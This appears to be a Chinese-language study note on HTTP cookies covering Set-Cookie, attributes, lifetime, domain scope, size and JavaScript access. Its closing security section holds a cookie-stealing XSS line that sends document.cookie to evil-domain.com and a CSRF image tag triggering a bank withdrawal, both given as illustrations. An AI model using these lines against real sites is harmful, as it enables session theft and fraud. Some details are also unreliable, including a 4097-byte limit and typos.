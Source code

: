 
## 目录
- 创建
- 生命周期
- 

## 创建Cookie
当服务器收到HTTP请求时，服务器可以在响应头里面添加一个Set-Cookie选项。
浏览器收到响应后通常会保存下Cookie，
之后对该服务器每一次请求中都通过Cookie请求头部将Cookie信息发送给服务器。
另外，Cookie的过期时间、域、路径、有效期、适用站点都可以根据需要来指定。

服务器使用Set-Cookie响应头部向用户代理（一般是浏览器）发送Cookie信息。一个简单的Cookie可能像这样：
```javascript
  Set-Cookie: <cookie名>=<cookie值>
  response.setHeader('Set-Cookie', ['type=ninja','username=123qad'， 'language=javascript']);
```

## 组成
- Name
- Value
- Domain
- Path
- Expires/ Max-Age     过期时间
- Size
- Http
- Secure            是否加密,标记为Secure 只会通过 htpps 协议传输， http 是不能设置的
- SameSite
[组成](./cookie.png)


## 生命周期

默认是浏览器关闭就清掉， 一般会设置  指定过期时间（Expires）或者有效期（Max-Age）
需要注意的是，有些浏览器提供了会话恢复功能，这种情况下即使关闭了浏览器，会话期Cookie也会被保留下来，就好像浏览器从来没有关闭一样。
```
Set-Cookie: id=a3fWa; Expires=Wed, 21 Oct 2015 07:28:00 GMT;

```
## 作用域
Domain (域名)和 Path 标识定义了Cookie的作用域：即Cookie应该发送给哪些URL。

Cookie 的Domain 属性可以设置 Cookie 发送哪些 url，默认是在当前域名下，但有时候我们可能几个站点想共享Cookie 信息
比方 qq空间(qq.tentxun.com)登陆了，我想点进 qq 邮箱(mail.tenxun.com)， 那要是再登陆一次，用户爸爸肯定受不了，所以通过设置
 cookie 的 domain 为 ".tenxun.com",从 qq空间点击链接 进入 qq 邮箱， qq邮箱 通过 cookie 信息，获取用户信息，就可以不用再次登陆了


如果设置 Domain=mozilla.org，则Cookie也包含在子域名中（如developer.mozilla.org）。


## 存储大小

4097个字节， 多了浏览器会默默删掉

## javascript 访问 Cookie
```
 var cookie = document.cookie;
 document.cookie = "username=tt";

```


## 安全问题

(new Image()).src = "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;

<img src="http://bank.example.com/withdraw?account=bob&amount=1000000&for=mallory">



